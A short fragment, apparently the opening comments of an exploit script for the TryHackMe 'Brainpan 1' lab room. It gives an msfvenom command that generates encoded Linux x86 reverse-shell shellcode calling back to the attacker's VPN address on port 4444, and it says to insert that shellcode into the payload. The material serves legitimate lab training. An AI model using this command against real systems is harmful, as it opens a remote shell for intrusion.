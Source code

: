 # TryHackMe's "Brainpan 1" room (https://tryhackme.com/room/brainpan).

# First of all create your shellcode for linux with:
(msfvenom -p linux/x86/  shell_reverse_tcp LHOST=VPN IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00")
# Introduce the shellcode in the payload.


